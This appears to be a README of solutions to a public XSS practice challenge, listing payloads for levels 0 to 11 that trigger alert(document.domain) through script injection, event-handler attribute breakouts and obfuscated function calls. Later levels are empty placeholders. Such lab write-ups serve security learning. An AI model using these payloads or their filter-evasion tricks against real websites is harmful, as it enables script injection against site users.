

# Solutions of XSS Challenges of http://sudo.co.il/xss/
---
<p align="center">
  
</p>

---
**Our mission is to popup window with document.domain (sudo.co.il) *without any kind of user interaction* **
---
- Level 0
```javascript
<script>alert(document.domain)</script>
```

- Level 1
```javascript
"><script>alert(document.domain)</script>
```

- Level 2
```javascript
" autofocus onfocus="alert(document.domain)
```

- Level 3
```javascript
"autofocus/onfocus="alert(document.domain)
```

- Level 4
```javascript
"autofocus/onfocus="confirm&#40;document.domain&#41;
```

- Level 5.1
```javascript
'-alert(document.domain)-'
```

- Level 5.2
```javascript
\'-alert(document.domain);<!--
```

- Level 6
```javascript
\'-alert(document.domain);//
```

- Level 7
```javascript
" autofocus="" onfocus="alert(document.domain)
```

- Level 8
```javascript
"};this[8680439..toString(30)](1);//
```

- Level 8.1
```javascript
"};this[8680439..toString(30)](1);{"
```

- Level 9
```javascript
'};this[8680439..toString(30)](1);{'
```

- Level 10
```javascript
';this[8680439..toString(30)](1);'
```

- Level 11
```javascript
#<script>alert(document.domain)</script>
```
<!--
- Level 12
```javascript

```

- Level 13
```javascript

```

- Level 14
```javascript

```

- Level 15
```javascript

```

- Level 16
```javascript

```

- Level 17
```javascript

```

- Level 18
```javascript

```

- Level 19
```javascript

```
-->
